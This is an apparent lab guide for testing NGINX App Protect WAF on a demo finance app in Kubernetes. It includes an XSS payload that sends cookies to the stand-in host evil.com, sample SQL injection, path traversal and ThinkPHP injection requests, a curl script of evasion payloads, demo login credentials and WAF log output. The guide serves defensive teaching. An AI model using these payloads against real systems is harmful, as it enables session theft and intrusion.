 Access the Application and test the NGINX App Protect WAF to see how it works in action
--------------------------------------------------------------------------------------- 


Now that NGINX App Protect WAF is enabled, let's test its ability to protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login`` and use the credentials ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)
    #. Execute the same XSS attack we did in Module 1 by appending ``?a=<script>`` to the end of the application URL. Observe that the attack is now blocked and the user is provided with a support ID.

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 14609283746114744748
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


        .. image:: ./pictures/image18.png
        
    #. Execute the second attack by appending ``?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`` to the application URL, and observe the results

        .. image:: ./pictures/image19.png 

    #. Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try**

- SQL Injection - ``GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``
- Remote File Include - ``GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``
- Command Execution - ``GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``
- HTTP Parser Attack - ``GET /?XDEBUG_SESSION_START=phpstorm``
- Predictable Resource Location Path Traversal - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``
- Cross Site Scripting - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``
- Informtion Leakage - ``GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``
- HTTP Parser Attack Forceful Browsing - ``GET /dana-na/auth/url_default/welcome.cgi``
- Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - ``GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``
- Cross Site Scripting - ``GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``


**and many more from bash script below**

        .. code-block :: bash

                #!/bin/bash
                echo "------------------------------"
                echo "Starting security testing..."
                echo "------------------------------"
                echo ""
                echo ""

                # Get the external IP address of the NGINX Ingress Controller
                EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

                echo "---------------------------------------------------------------------"
                echo "Multiple decoding"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
                echo "---------------------------------------------------------------------"

                # Send a request with multiple decoding
                curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "IIS Backslashes"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with IIS backslashes
                curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Apache Whitespace"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with Apache whitespace
                curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
                sleep 3

                echo "-----------------------------------------------------------------------------"
                echo "Cross site scripting"
                echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
                echo "-----------------------------------------------------------------------------"

                # Send a request with cross-site scripting payload
                curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"



Security Logging
#################

To verify that F5 Application Protection WAF is logging security events, follow these steps:

#. Get the local syslog server POD by running ``oc get pod -o wide``

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc get pod -o wide
                NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
                app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
                app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
                backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
                main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
                syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>

#. Examine the logging matching the support ID of `436359350950` 

        Example: 

        .. code-block:: bash

                [lab-user@bastion app-protect-waf]$ oc exec -it pod/syslog-bb47bd798-mhh64  -- cat /var/log/messages | grep 7175144470433567675
                Mar 13 23:27:22 my-nginx-ingress-controller-nginx-ingress-59cc967797-2vjjr ASM:attack_type="Detection Evasion,Other Application Activity,Brute Force Attack",blocking_exception_reason="N/A",date_time="2023-03-13 23:27:21",dest_port="80",ip_client="10.0.117.68",is_truncated="false",method="GET",policy_name="dataguard-alarm",protocol="HTTP",request_status="blocked",response_code="0",severity="Critical",sig_cves="N/A",sig_ids="300000000",sig_names="Apple_medium_acc [Fruits]",sig_set_names="{apple_sigs}",src_port="14788",sub_violations="Evasion technique detected:Multiple decoding",support_id="7175144470433567675",threat_campaign_names="N/A",unit_hostname="my-nginx-ingress-controller-nginx-ingress-59cc967797-2vjjr",uri="/%%41PPDATA%",violation_rating="4",vs_name="78-a857711ef4fc64492b21ce56624275e3-609642109.us-east-2.elb.amazonaws.com:8-/",x_forwarded_for_header_value="N/A",outcome="REJECTED",outcome_reason="SECURITY_WAF_VIOLATION",violations="Evasion technique detected,Attack signature detected,Violation Rating Threat detected",json_log="{""violations"":[{""enforcementState"":{""isBlocked"":false},""violation"":{""name"":""VIOL_EVASION""}},{""enforcementState"":{""isBlocked"":true},""violation"":{""name"":""VIOL_RATING_THREAT""}},{""enforcementState"":{""isBlocked"":true},""signature"":{""name"":""Apple_medium_acc [Fruits]"",""signatureId"":300000000},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}}]}",violation_details="<?xml version='1.0' encoding='UTF-8'?><BAD_MSG><violation_masks><block>410000000200c00-3a03030c30000072-8000000000000000-0</block><alarm>2577f0ffcbbd0fea-befbf35cb000007e-8000000000000000-0</alarm><learn>0-0-0-0</learn><staging>0-0-0-0</staging></violation_masks><request-violations><violation><viol_index>42</viol_index><viol_name>VIOL_ATTACK_SIGNATURE</viol_name><context>header</context><header><header_name>VXNlci1BZ2VudA==</header_name><header_value>TW96aWxsYS81LjAgKE1hY2ludG9zaDsgSW50ZWwgTWFjIE9TIFggMTBfMTVfNykgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBHZWNrbykgQ2hyb21lLzEwOS4wLjAuMCBTYWZhcmkvNTM3LjM2</header_value><header_pattern>*</header_pattern><staging>0</staging></header><staging>0</staging><sig_data><sig_id>300000000</sig_id><blocking_mask>3</blocking_mask><kw_data><buffer>dG9zaDsgSW50ZWwgTWFjIE9TIFggMTBfMTVfNykgQXBwbGVXZWJLaXQvNTM3LjM2IChLSFRNTCwgbGlrZSBH</buffer><offset>30</offset><length>5</length></kw_data></sig_data></violation><violation><viol_index>7</viol_index><viol_name>VIOL_EVASION</viol_name><context>uri</context><evasions><buffer>LyUyNSUyNTI1MjU0MVBQREFUQSUyNQ==</buffer><offset>4</offset><length>7</length><blocking_mask>16</blocking_mask></evasions></violation></request-violations></BAD_MSG>",bot_signature_name="N/A",bot_category="N/A",bot_anomalies="N/A",enforced_bot_anomalies="N/A",client_class="Browser",client_application="Chrome",client_application_version="109",request="GET /%25%25252541PPDATA%25 HTTP/1.1\r\nHost: a857711ef4fc64492b21ce56624275e3-609642109.us-east-2.elb.amazonaws.com\r\nConnection: keep-alive\r\nCache-Control: max-age=0\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\n\r\n",transport_protocol="HTTP/1.1"

        Where ``pod/syslog-bb47bd798-mhh64`` is the name of the pod and container where the syslog server is running. ``7175144470433567675`` is support ID of the attack.
        
Congratulations on completing the Lab! You have learned how to deploy the NGINX App Protect WAF in Kubernetes and how to use the NGINX App Protect WAF to protect your applications from attacks.




        